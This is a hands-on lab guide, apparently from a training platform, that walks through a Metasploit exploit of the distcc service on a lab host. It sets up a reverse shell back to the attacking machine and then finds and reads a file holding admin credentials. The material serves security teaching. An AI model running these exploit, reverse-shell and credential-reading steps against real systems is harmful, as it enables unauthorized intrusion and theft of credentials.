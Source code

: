 # Privilege Escalation Demo

**Note**: Ensure that you do not miss running any of the commands mentioned in the steps below. If you fail to run any of the commands, the lab validation may fail.

We will first set up a low-privileged shell using Metasploit, which you will then use for post-exploitation and privilege-escalation techniques.

1.  Open the Hyper-V Manager in your **LabVM** and right click on **Kali virtual machine** then click on **Connect** to connect to your **Kali virtual machine**.

    ![](./images/selecthyperv.png)

    ![](./images/kali.png)

    login to the Kali VM using username **root** and password **kali**.

2. On the Desktop of Kali VM, right click and choose **Open Terminal here**.

    ![](./images/terminal.png)

3. In the terminal enter **msfconsole** to launch msfconsole.

    ![](./images/msfconsole.png)

4. search for **distcc** using command **search distcc**.

    ![](./images/searchdistcc.png)

5. select the module using command **use exploit/unix/misc/distcc_exec**.

    ![](./images/use.png)

6. set the remote host using command **set RHOSTS 172.22.117.150**.

    ![](./images/Rhosts-1.png)

7. Before running the module, we need to set a payload. List the available payloads using command **show payloads**.

    ![](./images/showpay.png)

8. Select the reverse payload. Be sure NOT to select reverse_bash, or the exploit will not work using command **set PAYLOAD cmd/unix/reverse**.

    ![](./images/reverse.png)

9. Host that listens for the payload communication. In this case, our LHOST is the machine that we're currently operating on. 

    Run command **set LHOST 172.22.117.100**

    ![](./images/lhost.png)

10. Run the module.

    ![](./images/exploit1.png)

11. Use the `find` command (`find / -type f -iname "*admin*.txt"`), as the following image shows:

    ![](./images/find.png)

12. Run the commnd **cat /var/tmp/adminpassword.txt** to get the admin username and password.
    
14. Ensure to validate the exercise by navigating to the **Lab Valiadtion** Tab.

    ![](./images/cat.png)

15. click on **ctrl + c** and then enter command **exit** from msfconsole.

    ![](./images/exit.png)

# Validation 2: Privilege Escalation

<validation step="474a2c1f-3736-4a89-9f59-e9c6dede4ca5" />
